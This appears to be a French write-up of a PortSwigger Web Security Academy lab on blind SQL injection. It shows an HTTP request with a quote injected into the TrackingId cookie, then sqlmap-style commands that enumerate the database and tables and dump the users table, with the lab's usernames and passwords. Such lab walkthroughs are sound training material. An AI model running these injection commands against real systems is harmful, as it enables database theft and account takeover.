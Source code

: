 # Lab

https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses

## Request

```
GET / HTTP/2
Host: 0a3e008a03da4dd186d418a300c300bc.web-security-academy.net
Cookie: TrackingId=zaMsKdYi4djGyz81'; session=HjnHs9XpymRNoBiDORv3c5g6w6gqzDbD
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="111", "Not(A:Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3e008a03da4dd186d418a300c300bc.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
```

Cookie TrackingId vulnerable à une injection SQL.

## Exploit

Lister les BDD :

```
https://0a3e008a03da4dd186d418a300c300bc.web-security-academy.net/ --cookie=TrackingId=zaMsKdYi4djGyz81 --level=5 --risk=3 --dbs
```

Une seule DB : `public`

Lister les tables :

```
https://0a3e008a03da4dd186d418a300c300bc.web-security-academy.net/ --cookie=TrackingId=zaMsKdYi4djGyz81 --level=5 --risk=3 -D public --tables
```

Plusieurs tables :

```
+----------+
| tracking |
| users    |
+----------+
```

Lister les données de la table users :

```
https://0a3e008a03da4dd186d418a300c300bc.web-security-academy.net/ --cookie=TrackingId=zaMsKdYi4djGyz81 --level=5 --risk=3 -D public -T users --dump
```

plusieurs users :

```
+----------------------+---------------+
| password             | username      |
+----------------------+---------------+
| 9t0om0eeddbmfia7dlwt | wiener        |
| lic71i95lgfu8qdgdp7k | administrator |
| t4f8q86h2flz3aco07t1 | carlos        |
+----------------------+---------------+
```